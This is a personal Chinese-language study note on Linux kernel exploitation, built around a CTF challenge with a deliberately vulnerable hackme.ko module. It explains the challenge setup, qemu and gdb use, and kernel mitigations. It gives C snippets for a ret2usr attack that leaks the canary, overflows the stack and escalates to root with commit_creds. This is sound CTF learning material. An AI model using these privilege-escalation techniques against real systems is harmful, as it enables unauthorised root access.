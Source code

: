 # Learning Linux Kernel Exploitation

这一刻还是来了吗，kernel？参考教程：
- https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/

此为极简（存疑）笔记，尝试直接把知识点记下来（我也不知道它重不重要，记就完了）

kernel pwn目标：攻击在启动时安装到内核中的自定义内核模块。

大部分情况会给出module相关的文件，用qemu做模拟器。极特别情况会给VMWare或者VirtualBox的镜像，甚至不给任何模拟环境。拿hxpCTF 2020的kernel-rop给的文件举例：
- [vmlinuz](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/vmlinuz) - 压缩的Linux kernel文件, 有时候称之为bzImage, 可用vmlinux将其解压为真正的kernel elf文件
- [initramfs.cpio.gz](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/initramfs.cpio.gz) - 用cpio和gzip压缩的linux文件系统。比如/bin,/etc，通常有漏洞的kernel模块也在里面。其他题目可能用其他的压缩方式
- [run.sh](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/run.sh) - 一个包含qemu命令的脚本文件。可自行修改配置

（建议下载文件跟着教程做，排查一下自己的系统有没有运行、调试等问题）

可用[脚本](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/extract-image.sh)从vmlinuz里解压出kernel elf文件。解压是为了找里面的rop gadget。kernel里的rop和普通情况下差不多。找gadget也是用ROPgadget命令，但是建议一拿到题就运行命令，并将输出结果保存到一个文件中
```sh
ROPgadget --binary ./vmlinux > gadgets.txt
```
这是因为kernel image很大，命令耗时较长。

解压linux文件系统的命令取决于题目的压缩方式(推荐把文件系统解压到一个空文件夹下，不然和题目文件混在一起乱得摸不着头脑)。解压不仅是为了拿到有漏洞的模块，还能让我们修改这个文件系统里的文件。从/etc入手，因为启动后大部分运行的初始化脚本都存储在这。特别注意寻找下面这行（通常在/etc/init.d/rcS或者/etc/inittab）然后修改
```sh
setuidgid 1000 /bin/sh
#改成下面的
setuidgid 0 /bin/sh
```
这行代码用于在启动后开启一个UID为1000的非root shell。把UID改成0后，我们就有了root shell。这么做是为了查看下面这些文件，它们提供的信息有助于我们利用漏洞
- /proc/kallsyms 列出加载到kernel中的所有symbol的地址
- /sys/module/core/sections/.text 给出kernel `.text`段的地址，也是base address（虽然有些题目没有/sys文件夹，不过base address还可以从/proc/kallsyms拿）

切记运行poc时把UID设回1000，防止我们以为自己拿到了root shell，但其实没有

后面写出poc还要把poc放回解压的文件系统中，然后重新压缩成要求的格式。

分析qemu命令：
```sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
- -m 指定内存大小。假如因为某种原因没法启动模拟器，尝试提高内存大小。
- -cpu 指定CPU model，+smep 和 +smap启用SMEP 和 SMAP mitigation feature（linux的漏洞缓解机制，下面有）
- -kernel 指定压缩的kernel image
- -initrd 指定压缩的文件系统
- -append 指定额外的启动选项。也可以在这选择是否启用漏洞缓解
- -hdb 把flag.txt放进/dev/sda

更多qemu相关参考 https://manpages.debian.org/jessie/qemu-system-x86/qemu-system-x86_64.1.en.html

记得给qemu命令添加个-s选项(就在-append后面加个-s即可)，这样就能远程调试模拟器的kernel了。如果没有安装qemu-system-x86_64的话，可以尝试：
- `sudo apt-get install qemu-system`:这个直接把qemu-system全家桶装上了，不仅仅是qemu-system-x86_64
- `sudo apt-get install -y qemu-system-x86-64`:单纯装qemu-system-x86_64

然后运行qemu命令即可。再打开个cmd界面就能用gdb调试了。建议调试远程kernel时禁用peda, pwndbg或者GEF，这些插件有时候会奇奇怪怪的。直接用`gdb --nx vmlinux`
```sh
gdb --nx vmlinux
(gdb) target remote localhost:1234 #这个localhost:1234似乎是默认的，我运行qemu后啥也没设置也能连接上
```

就像用户态程序的ASLR, stack canaries, PIE（我现在才知道这些东西叫漏洞缓解机制），kernel也有自己的漏洞缓解机制。
- [Kernel stack cookies(or canaries)](http://www.phrack.org/issues/49/14.html#article):和用户态的stack canary完全一致。编译时启用且无法被禁用
- [Kernel address space layout randomization(KASLR)](https://lwn.net/Articles/569635/)：也和用户态的ASLR相似。每次系统启动，kernel挂载时，该机制随机化kernel的基地址。可以在qemu的-append选项里添加kaslr或者nokaslr启用/禁用该功能
- [Supervisor mode execution protection(SMEP)](https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging_technologies/fischer.pdf):当进程在kernel mode的话，标记页表中所有用户态内存页不可执行。kernel中可通过设置控制寄存器CR4的第20个bit启用。用boot启动时，可通过在-cpu选项后加上+smep启用；在-append后加上nosmep禁用
- [Supervisor Mode Access Prevention(SMAP)](https://lwn.net/Articles/517475/)：当进程处于内核模式时，此功能将页表中所有用户态内存页标记为不可访问，意味着这回连读和写都不行了。kernel中可通过设置控制寄存器CR4的第21个bit启用。用boot启动时，可通过在-cpu选项后加上+smap启用；在-append后加上nosmap禁用
- [Kernel page-table isolation(KPTI)](https://lwn.net/Articles/741878/):用两组页表将用户空间和内核空间的页表完全隔离，而不是使用一个同时包含用户空间和内核空间地址的页表。可通过在-append选项后添加kpti=1或nopti启用/禁用

然后就是分析hackme.ko了（在解压后的文件系统里）。个人建议拿ida或者ghidra反编译看看，有些函数一般pwn不常见，熟悉一下。在`hackme_init`里用`misc_register`注册了一个名为hackme的设备。这段在ghidra里有点谜语人，设备的详细信息在一个名为hackme_misc的结构里，点开后有个`s_hackme_0010025c`，是设备名；`hackme_fops`是记录所有操作的结构：hackme_read, hackme_write, hackme_open和hackme_release。这意味着我们可以通过打开/dev/hackme与这个模块交互并执行读写操作。

对设备执行读或写操作会调用kernel里的hackme_read或hackme_write。代码审计部分略过，此题漏洞在于buffer overflow。

ret2usr：我们能控制用户态（userland，似乎这个翻译不太准确）的内容，那就能采用与ret2shellcode类似的思路，把shellcode放到userland，然后让程序流跳转到userland。所以可以覆盖kernel所调用函数的返回地址为shellcode所在的userland地址。因为漏洞函数是个kernel函数，所以即使我们的shellcode在userland，跳转过去后还是在kernel mode下执行。

这种办法需要关闭smep，smap，kpti和kaslr。可以说已经过时了。但是借这个漏洞poc熟悉一下kernel pwn流程还是可以的。

在与模块交互之前，需要先打开它。打开device的方法和打开普通文件的方法相同。
```c
int global_fd;
void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
}
```
然后就能用global_fd读和写了。泄露canary也不难，此题的buf为0x80字节，canary跟在后面。如果把数据读进unsigned long的数组（每个元素8字节），那么canary在偏移为16的位置。
```c
unsigned long cookie;
void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak)); //所以似乎打开device后直接就是stack了
    cookie = leak[16];
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```
我在ghidra里看到buffer在stack-0xa0,为什么这里说长度是0x80？划到函数最底下，发现pop了3个寄存器。看来kernel里栈上存储的寄存器比userland的pwn多了两个r12和rbx。再加上canary和rbp，共占0x20.0x80+0x20=0xa0，没问题。目前我们了解到了栈上的布局：
```
buf
canary
rbx
r12
rbp
```
最后还是利用unsigned long数组和write写返回地址
```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret，escalate_privs是下面调用commit_creds(prepare_kernel_cred(0))的shellcode
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
```
kernel pwn里不用`system("/bin/sh")`或`execve("/bin/sh", NULL, NULL)`getshell，而是需要获取系统的root权限然后弹一个root shell。通常利用commit_creds()和prepare_kernel_cred()这俩已经在kernel-space里的函数。只需像这样调用两个函数：
```c
commit_creds(prepare_kernel_cred(0))
```
关闭kaslr的情况下，这两个函数的地址每次boot都是一样的。直接从/proc/kallsyms获取地址：
```sh
cat /proc/kallsyms | grep commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
```
怎么调用都行，只需要连续调用这两个函数然后让其中一个函数的返回值作为另一个函数的参数即可。参考作者的写法，用intel syntax直接在C里写汇编。

还没结束，写好shellcode，填好返回地址（这个返回地址是我们在poc里写的一个函数的地址，因此还在kernel里）后，我们仍然在kernel mode执行，需要返回到user mode。如果kernel正常运行，在遇见其中一个指令(x86_64)后会返回userland：sysretq或iretq。通常都用iretq，因为sysretq比较难用。iretq只需要按下面的顺序在栈上设置好5个userland寄存器值：RIP|CS|RFLAGS|SP|SS

程序记录两套不同的寄存器值，一个给user mode，另一个给kernel mode。对于rip，可以直接把它设置成弹shell的函数。然而其它寄存器不能随便设置，不然可能没法正常执行。这个好办，在进入kernel mode前记录这些寄存器的值（所以在open /dev/hackme之前都在user mode吧？），等拿到root权限后再加载回来。

还有一件事，在x86_64上，调用iretq前必须先调用swapgs。这个指令的作用是交换kernel mode和user mode的GS寄存器值。

完整exp：https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/ret2usr.c